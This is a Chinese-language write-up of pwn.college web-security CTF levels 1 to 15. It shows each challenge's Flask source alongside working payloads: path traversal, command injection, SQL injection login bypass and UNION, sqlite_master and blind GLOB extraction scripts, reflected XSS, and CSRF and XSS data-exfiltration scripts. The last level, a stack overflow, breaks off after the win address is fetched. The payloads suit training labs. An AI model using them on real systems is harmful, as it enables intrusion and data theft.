


# Knoeledge

需要知道web服务器都能干什么事

SQL，大名鼎鼎的SQL注入

命令注入

HTML，也就是注入部分JavaScript

C语言的堆栈注入

总的来说就是利用Web服务器会执行一些语句（部分参数来自于我们的输入），来进行操作。

Origin的概念：(`<shceme>`,`<host>`,`<post>`)
（http, exapmle.com,80）

HTML-embeds、域名、站点等概念，基本上都是计算机网络的内容

# WP

## level1 Exploit a path traversal vulnerability

这个其实我找不到太好的方法，只能猜，猜到了就是了
```
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/?path=/flag
pwn.college{4MSrtxHJYUF2_wAz81iNV6UtM5K.ddDOzMDL2QjMyMzW}
hacker@web-security-level-1:~$
```
这个也不让安装dirsearch，不知道怎么自己扫目录，也许可以自己写脚本？
## level2 Exploit a command injection vulnerability

这个十分简单，就是一个简单的命令注入，只需要让前面的命令闭合即可
```
hacker@web-security-level-2:~$ curl "http://challenge.localhost:80/?timezone=;cat%20/flag;#"
pwn.college{o0h_efJ2CAv60AmeSOoPYGrZKBs.dhDOzMDL2QjMyMzW}
Mon Jul 24 07:17:20 UTC 2023
```

## level3 Exploit an authentication bypass vulnerability

在运行以后出现这个界面

一开始以为是弱口令，试了好几个都不太星，然后看了一下源代码
```
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
发现重点在于rowid
```
hacker@web-security-level-3:~$ curl -X GET "http://challenge.localhost:80/?user=1"
pwn.college{8_5yNK5tBFzbFE9oz5e05zoS6-a.dlDOzMDL2QjMyMzW}
```
这道题的重点就是找到绕过这个界面的方法。也就是说我们如果看到的是那个输入的页面，只有输入正确的flag才行，但是我们想要的就是flag，怎么可能输入进去？

因此正确的做法是只使用GET请求，构造合理的请求包。

当然为什么user=1，要看这个[视频](https://youtu.be/0qSzKxjlRQ0?list=PL-ymxv0nOtqqW1sDfN6UGUfJTcYqYH9CM&t=2085)，我其实是瞎猜的，但是应该是看一下返回包。

## level4 Exploit a structured query language injection vulnerability to login
还是看代码
```
        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"
```
SQL注入

在user的地方填上`flag";--`即可
```
pwn.college{YeVTtF9Vvh8mWYEuq-G30ezoOld.dBTOzMDL2QjMyMzW}
```

## level5 Exploit a structured query language injection vulnerability to leak data
```
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```
这个看代码的话，直接上联合查询
```
hacker@web-security-level-5:~$ curl "http://challenge.localhost:80/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--"
pwn.college{ky74n-Ct2lQvah1GVjTktI5hfs6.dFTOzMDL2QjMyMzW}
```
其实还是简单的。
## level6 Exploit a structured query language injection vulnerability with an unknown database structure
```
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```
这个是说我们不知道库名和表名，但是sqlite有如下语句可以查询
```
--  this query will extract data from databases.

SELECT name FROM sqlite_master WHERE type = "table"

--  or

SELECT tbl_name FROM sqlite_master
```
这样我们就可以联合查询了，先查表名
```
hacker@web-security-level-6:~$ curl 'http://challenge.localhost:80/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20%3D%20%22table%22%3B--'
table14306546637912208127
hacker@web-security-level-6:~$
```
然后从这个表读取flag即可
```
hacker@web-security-level-6:~$ curl 'http://challenge.localhost:80/?query=%20%22%20UNION%20SELECT%20password%20FROM%20table14306546637912208127%20%3B%20--'
pwn.college{g044nYlCw5bx-l7OByeCKKr9QCs.dJTOzMDL2QjMyMzW}
hacker@web-security-level-6:~$
```

## level7 Exploit a structured query language injection vulnerability to blindly leak data
先看源代码
```
def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
根据源代码，如果我们输入正确，我们就可以得到`hellp,flag`的提示，也就是说，我们可以一位一位的来实验，进而推出整个flag。这是典型的盲注。

当然，这里有一个问题就是`LIKE`是不区分大小写的，因此我们需要使用`GLOB`来替换

然后我们写个脚本即可
```
import string
import requests

searchspace = string.ascii_letters + string.digits + '{}._-'
solution = ''

while True:
    for char in searchspace:
        data = {
            "username": f'" OR password  GLOB "{solution}{char}*" -- -',
            "password": 'flag'
        }

        response = requests.post("http://challenge.localhost/", data = data)
        if response.text.startswith("Hello"):
            solution += char
            break
    if solution[-1] == "}":
        print(solution)
        break
```
然后得到flag
```
hacker@web-security-level-7:~$ python test.py
pwn.college{IqvCxcvkbplIDWtJG3DclxxKfPE.dNTOzMDL2QjMyMzW}
hacker@web-security-level-7:~$
```
## level8 Exploit a cross site scripting vulnerability
终于来到了激动人心的跨站脚本，还是先看源码
```
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```
如果将 url 参数设置为 javascript:alert(1)，那么它将弹出一个警报框，并返回标志值 flag。
```
hacker@web-security-level-8:~$ curl "http://challenge.localhost/visit?url=<script>alert(1)</script>"
Invalid `url`, hostname should be `challenge.localhost`
hacker@web-security-level-8:~$ curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<script>alert(1)</script>"
pwn.college{4g4Hj421ueC3NuXZRLIM6QQnz_i.dRTOzMDL2QjMyMzW}
hacker@web-security-level-8:~$
```

## level9 Exploit a cross site scripting vulnerability with more complicated context
还是先看一下源代码
```
def level9():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(f"<textarea>{echo}</textarea>")

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```
差不多，不同的是要使用`<textarea>`标签
```
hacker@web-security-level-9:~$ curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=</textarea><script>alert(1)</script><textarea>"
pwn.college{Ukha1cPrsQUTyJ0IakNuWL6dt7w.dVTOzMDL2QjMyMzW}
hacker@web-security-level-9:~$
```

## level10 Exploit a cross site scripting vulnerability to cause a user action
源代码
```
def level10():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```
五个路由：

- `/login` 路由：它接受 POST 请求，从表单中获取 username 和 password 参数的值，并使用 SQLite 数据库查询验证用户身份。如果验证成功，它将在会话中存储用户 ID，并重定向到登录页面。如果请求方法是 GET，它将返回一个包含 username 和 password 输入框的 HTML 表单。
- `/leak` 路由：它检查当前用户是否已经登录，并将该用户的 leak 标志设置为 TRUE。这个标志可以用来控制是否泄露用户密码。
- `/info` 路由：它从请求参数中获取 user 参数的值，并使用 SQLite 数据库查询该用户的信息。如果该用户存在，它将返回该用户的用户名和密码（如果 leak 标志为 TRUE）。
- `/visit` 路由：它从请求参数中获取 url 参数的值，并使用 Selenium WebDriver 打开该 URL。在访问该 URL 之前，它会先登录为管理员用户，以便访问敏感数据。如果 url 参数的主机名与 challenge_host 变量的值相同，它将访问该 URL 并返回一个成功消息。
- `/echo` 路由：它从请求参数中获取 echo 参数的值，并返回一个 HTML 响应，其中包含 echo 参数的值。
```
hacker@web-security-level-10:~$ curl http://challenge.localhost/visit?url=http://challenge.localhost/leak
Visited
hacker@web-security-level-10:~$
```
这时候我们就已经被设置为True了，然后再访问即可
```
hacker@web-security-level-10:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{4QUT7p7kVB1-GCQIE-psBqLVG8L.dZTOzMDL2QjMyMzW}
hacker@web-security-level-10:~$
```
## level11 Exploit a cross site request forgery vulnerability
看一下源代码
```
def level11():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404
```
区别在于这次我们需要自己启动一个服务，因为`hacker.localhost`没有服务，当然，答疑给出了一个[参考框架](https://youtu.be/UoO57evSrAI?list=PL-ymxv0nOtqqW1sDfN6UGUfJTcYqYH9CM&t=3994)
```python
from flask import Flask,request
app=Flask(__name__)
@app.route("/")
def index():
    data=''
    return data
app.run("hacker.localhost",8080)
```
后面的挑战都可以利用这个代码框架，只需要改变的是Data那个部分。
这里的所谓的img src是什么？就是tab里面这个小图片


不只是那个img src，比如说这个图，除了本身的请求之外，还请求了一个js,其实只要你用了其他站的src，都会同时发包的。

正确的内容如下所示:
```
from flask import Flask,request

app=Flask(__name__)
@app.route("/")
def index():
    data = ''
    return data
app.run("hacker.localhost",8080)
```
这里是这样的：我启动了`hacker.localhost`服务，也就是127.0.0.1，然后我现在希望服务器把我设置为visited，这样我再访问challenge的时候就可以访问到flag了。这时候，我如何通过hacker让challenge给我设置为  visited呢？利用访问网页的同时网页也会请求ico的特点，让hacker发一个访问leak的包，即可！

```
hacker@web-security-level-11:~$ curl 'http://challenge.localhost/visit?url=http://hacker.localhost:8080/'
Visited
hacker@web-security-level-11:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{YJJku1sAPTQ8nbbxZ7Dy_Z3PahG.ddTOzMDL2QjMyMzW}
hacker@web-security-level-11:~$
```
## level12 Exploit a cross site request forgery vulnerability where the request must POST
看看源码
```
def level12():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak" and request.method == "POST":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404
```
这个要求方法为POST，实在是不知道咋整，主要是前端那块儿会的太少了，看了一下 `discord`里面的解答，得到如下语句
```
from flask import Flask,request

app=Flask(__name__)
@app.route("/")
def index():
    data = '<script>var xhr=new XMLHttpRequest(); xhr.open("POST","http://challenge.localhost/leak",true);xhr.withCredentials=true;xhr.send(null);</script>'
    return data
app.run("hacker.localhost",8080)
```
*有点儿超纲了朋友。。。*

> 解释是这样的：这段代码似乎是在 hacker.localhost:8080 上启动了一个 Flask 应用程序，它的主页返回了一个包含一个 JavaScript 代码块的 HTML 页面。该 JavaScript 代码块使用 XMLHttpRequest 对象向 challenge.localhost 的 /leak 路由发送了一个 POST 请求，并将 withCredentials 属性设置为 true，以便在跨域请求中发送身份验证信息。

> 这个 JavaScript 代码块可能会导致一些安全问题，例如：

> 它允许跨域请求，而没有对目标服务器进行足够的验证和授权。这可能导致攻击者利用该漏洞，向目标服务器发送恶意请求，例如修改数据、泄漏敏感信息等等。
以上是chatgpt的一些解答，反正我大受震撼
```
hacker@web-security-level-12:~$ curl 'http://challenge.localhost/visit?url=http://hacker.localhost:8080/'
Visited
hacker@web-security-level-12:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{YOI6WPf6E5oX7qRb5fmdXaYAu3v.dhTOzMDL2QjMyMzW}
hacker@web-security-level-12:~$
```
得到答案。

这里最好看一下两个服务器的log，理解更深刻一些

```
hacker@web-security-level-12:~$ sh file.sh
 * Serving Flask app 'run'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /login HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "POST /login HTTP/1.1" 302 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /login HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:18] "POST /leak HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:22] "GET /visit?url=http://hacker.localhost:8080/ HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:26] "GET /info?user=1 HTTP/1.1" 200 -
```
正好有时间戳，可以看一下发生了什么
```
hacker@web-security-level-12:~$ python test.py
 * Serving Flask app 'test'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://hacker.localhost:8080
Press CTRL+C to quit
127.0.0.1 - - [05/Aug/2023 13:38:18] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:18] "GET /favicon.ico HTTP/1.1" 404 -
```

## level13 Exploit a cross site scripting vulnerability to exfilitrate user session data
看一下源代码，
```
def level13():
    app.config['SESSION_COOKIE_HTTPONLY'] = False

    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/info":
        session_user_id = int(session.get("user", -1))
        session_user = db.execute("SELECT * FROM users WHERE rowid = ?", (session_user_id,)).fetchone()

        request_user_id = int(request.args.get("user", session_user_id))
        request_user = db.execute("SELECT * FROM users WHERE rowid = ?", (request_user_id,)).fetchone()
        assert request_user, "Invalid `user`"

        info = [request_user["username"]]
        if request_user_id == session_user_id:
            info.append(request_user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```
看了一下，这次没有leak路由了，同时多了这样一句
```
app.config['SESSION_COOKIE_HTTPONLY'] = False
```
这是关闭了 Flask 应用程序的 HTTP-only 会话 cookie 选项
> HTTP-only 会话 cookie 选项是一个安全机制，它可以防止恶意脚本（如跨站脚本攻击）从浏览器中窃取会话 cookie。当启用 HTTP-only 选项时，浏览器将禁止 JavaScript 访问会话 cookie，这意味着即使恶意脚本能够执行，也无法访问该 cookie。

> 如果关闭了 Flask 应用程序的 HTTP-only 会话 cookie 选项，会话 cookie 将变得更加容易受到攻击。例如，恶意脚本可以通过 JavaScript 访问会话 cookie，然后将其发送到攻击者的服务器，从而劫持用户的会话。此外，如果会话 cookie 包含敏感信息，例如用户名和密码，攻击者可以轻松地窃取这些信息，然后用于恶意目的。

这也就是level13的核心了。注意，此时我们不需要服务器了，因为并不需要从`hacker`访问了

然后差不多，就是写一个请求，把获取cookie的语句塞到里面即可,这个javascript的讲解在[discord](https://discord.com/channels/750635557666816031/1097285456460251156/1097312950072643654)上有，一定要去看一看这个，十分的清晰！
```
import requests

r = requests.get('http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<script>var xhttp = new XMLHttpRequest();xhttp.open("GET","http://challenge.localhost/info?user=1",true);xhttp.onreadystatechange = function(){document.getElementById("n").src = xhttp.responseText;};xhttp.send();</script>')
print(r.content.decode())
```
发现flag在get里面，我震惊
```
"GET /flag%20pwn.college{Iw5PLCtom_udyT1-ZfKq0ziXEhh.dlTOzMDL2QjMyMzW} HTTP/1.1" 404 -
```
## level14 Exploit a cross site scripting vulnerability to exfilitrate user data
```
def level14():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/info":
        session_user_id = int(session.get("user", -1))
        session_user = db.execute("SELECT * FROM users WHERE rowid = ?", (session_user_id,)).fetchone()

        request_user_id = int(request.args.get("user", session_user_id))
        request_user = db.execute("SELECT * FROM users WHERE rowid = ?", (request_user_id,)).fetchone()
        assert request_user, "Invalid `user`"

        info = [request_user["username"]]
        if request_user_id == session_user_id:
            info.append(request_user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```
这个也是不需要服务器的，和13的区别在于删去了http session那句话，也就是说不能读取出来然后在使用比如curl等方式传递这个cookie了，但是可以直接在js之中调用，也就是说，这个答案和level13是一样的！
```
import requests

r = requests.get('http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<script>var xhttp = new XMLHttpRequest();xhttp.open("GET","http://challenge.localhost/info?user=1",true);xhttp.onreadystatechange = function(){document.getElementById("n").src = this.responseText;};xhttp.send();</script>').content.decode()
print(r.text)
```
然后还是在get之中
```
GET /flag%20pwn.college{geCA9st3ZYLR66SVt816em8X9HG.dBDM0MDL2QjMyMzW}
```
## level15 Exploit a (memory corruption) stack injection vulnerability

```
def level15():
    if "libgreet" not in globals():
        global libgreet
        shared_library_file = tempfile.NamedTemporaryFile("x", suffix=".so")
        gcc_args = ["/usr/bin/gcc", "-x", "c", "-shared", "-fPIC", "-fno-stack-protector", "-o", shared_library_file.name, "-"]
        subprocess.run(gcc_args, input=r"""
        #include <unistd.h>
        #include <fcntl.h>
        #include <stdio.h>
        #include <string.h>

        void __attribute__ ((constructor)) disable_buffering(void) {
          setvbuf(stdout, NULL, _IONBF, 0);
        }

        void win(void)
        {
          char flag[256] = { 0 };
          int flag_fd;

          puts("You win! Here is your flag:");

          flag_fd = open("/flag", 0);
          read(flag_fd, flag, sizeof(flag));
          puts(flag);
        }

        void * win_address(void)
        {
          return win;
        }

        void greet(char *name, size_t length)
        {
          char buffer[256] = { 0 };

          memcpy(buffer, "Hello, ", 7);
          memcpy(buffer + 7, name, length);
          memcpy(buffer + 7 + length, "!", 1);

          puts(buffer);
        }
        """.encode())
        libgreet = ctypes.CDLL(shared_library_file.name)
        libgreet.win_address.restype = ctypes.c_void_p

    if request.path == "/win_address":
        return f"{hex(libgreet.win_address())}\n"

    if request.path == "/greet":
        name = request.args.get("name")
        assert name, "Missing `name` argument"

        def stream_greet():
            r, w = os.pipe()
            pid = os.fork()

            if pid == 0:
                os.close(r)
                os.dup2(w, 1)
                name_buffer = ctypes.create_string_buffer(name.encode("latin"))
                libgreet.greet(name_buffer, len(name))
                os._exit(0)

            os.close(w)
            while True:
                data = os.read(r, 256)
                if not data:
                    break
                yield data
            os.wait()

        return stream_greet()

    return "Not Found\n", 404
```
很好，再次求助chatgpt：
> 这段代码定义了一个名为 level15() 的函数，它似乎是一个 Flask 路由处理程序。这个函数的作用是：

> 如果 libgreet 不在全局变量中，则使用 GCC 编译器编译一个共享库，并将其加载到 libgreet 变量中。这个共享库包含一个名为 win() 的函数，它会读取 /flag 文件并将其内容输出为标准输出流；还包含一个名为 greet() 的函数，它会将一个字符串参数作为问候语输出到标准输出流。这个共享库还包含一个名为 win_address() 的函数，它会返回 win() 函数的地址。

> 如果请求的路径为 /win_address，则返回 win() 函数的地址。

> 如果请求的路径为 /greet，则从请求参数中获取一个名为 name 的字符串参数，并使用 greet() 函数向客户端发送一条问候语。为了避免缓冲区溢出等安全问题，它使用了 ctypes.create_string_buffer() 函数来创建一个名为 name_buffer 的缓冲区，并将其传递给 greet() 函数。为了将 greet() 函数的输出流与客户端的响应流相连接，它使用了 Unix 管道和子进程来实现流式输出。

> 如果请求的路径不是 /win_address 或 /greet，则返回一个 404 响应。

> 总体来说，这个函数似乎是一个非常危险的路由处理程序，因为它使用了动态编译和加载共享库的技术，并且使用了 Unix 管道和子进程来实现流式输出。这些技术都可能会导致安全漏洞，例如缓冲区溢出、代码注入、代码执行等问题。建议谨慎使用这种技术，并且在使用时应该加强安全性的措施。

其实这个是很简单的shellcode。
```
hacker@web-security-level-15:~$ curl challenge.localhost/win_address
0x7fa506d8f1c5
